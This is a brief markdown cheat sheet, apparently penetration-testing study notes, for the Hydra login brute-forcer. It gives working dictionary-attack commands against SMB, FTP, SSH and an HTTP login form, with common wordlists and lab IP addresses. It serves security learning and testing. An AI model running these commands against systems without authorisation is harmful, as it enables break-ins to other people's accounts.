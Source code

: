 
# Overview
Brute force logins

# Options
*lower* case to give string and *upper* case to pass in file
- `-l/L` : username/user File
- `-p/P` : password/password File
- `-t` : threads
- `-s` : specific port
- `-v`/`-vV` : verbose / verbose with password attempts

---

# Service Examples
## SMB

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.33.3 smb`

---

## FTP
dictionary attack with *userlist* and *passlist*
```bash
hydra -L /usr/share/metasploit-framework/data/wordlist/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.24.3 ftp
```

---

## SSH
dictionary attack
`hydra -l student -P /usr/share/wordlist/rockyou.txt 192.168.7.3 ssh`

---

## Http-Form
http-post-form `"login page : post data : error check"`
```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -s 80 -t 30 -v
```

